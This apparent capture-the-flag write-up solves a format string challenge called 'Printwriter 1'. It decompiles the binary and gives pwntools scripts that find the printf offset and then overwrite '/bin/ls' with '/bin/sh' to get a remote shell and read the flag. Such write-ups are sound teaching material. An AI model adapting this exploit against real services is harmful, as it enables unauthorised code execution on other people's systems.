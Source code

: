 ```yaml
---
created: 2021-12-21T23:50
updated: 2024-06-10T23:38
---
```


## Printwriter 1

> My wonderful app works both as an echo server and a file lister!
>
> Bet you can't hack it!`nc 35.240.143.82 4203`

Only the compiled `chal` file was given, after decompiling it with Ghidra, I get

```cpp
undefined8 main(void)
{
    int32_t iVar1;
    char *format;
    
    setup();
    while( true ) {
        fgets(&format, 0x70, _stdin);
        iVar1 = strncmp(&format, "quit", 4);
        if (iVar1 == 0) break;
        printf(&format);
    }
    system("/bin/ls");
    return 0;
}
```

As I can see, and `printf` has been used to print the output directly.

This challenge is in the format string attack category, which I can verify with a simple `%x`

```
$ nc 35.240.143.82 4203
%x
402004
%s
quit
```

### pwntools

I can use pwntools to quickly create our format string payload

#### offset

I first have to find the offset which can be easily done with

```python
from pwn import *

conn = remote("35.240.143.82", 4203)
context.clear(arch='amd64')


def send_payload(p):
    conn.wait(1)
    conn.sendline(p)
    return conn.recv()


print("offset =", FmtStr(execute_fmt=send_payload).offset)
```

```
[x] Opening connection to 35.240.143.82 on port 4203
[x] Opening connection to 35.240.143.82 on port 4203: Trying 35.240.143.82
[+] Opening connection to 35.240.143.82 on port 4203: Done
[*] Found format string offset: 6
offset = 6
[*] Closed connection to 35.240.143.82 port 4203
```

#### what attack to use

In the decompiler, I noticed how `/bin/ls/` is located at `0x00404058`

 ![](https://raw.githubusercontent.com/octo-kumo/images/master/image-20211221173130465.png)

If I edit `/bin/ls/` into `/bin/sh`, as they have same amount of characters, I can gain remote shell access.

Hence I will be using `fmtstr_payload` from pwntools

#### payload

```python
from pwn import *

conn = remote("35.240.143.82", 4203)

context.clear(arch='amd64')
payload = fmtstr_payload(0x6, {0x404058: b'/bin/sh'}, write_size='short')
conn.wait(1)
print("sending" + str(payload))
conn.sendline(payload)
print(conn.recv())
conn.sendline("quit")
conn.interactive()
```

We will be writing the string `/bin/sh` to address `0x404058` with offset `6`.

After sending the payload, `/bin/ls` will be changed to `/bin/sh`. This means that after I exit the loop with `quit`, it should give us shell access.

I will then switch to interactive to more easily take advantage of the shell.

```cpp
system("/bin/sh");
```

Indeed we gain remote shell access.

By running the command `ls`, I find `flag.txt`, and with `cat flag.txt`

```
cat flag.txt
flag{why_would_printf_be_able_to_write_memory????!!}
```

Flag obtained

> If you run the following you can find the message I left
>
> ```
> cd ~
> cd w
> cat README.txt
> Hello, I was here ;) ZY
> ```
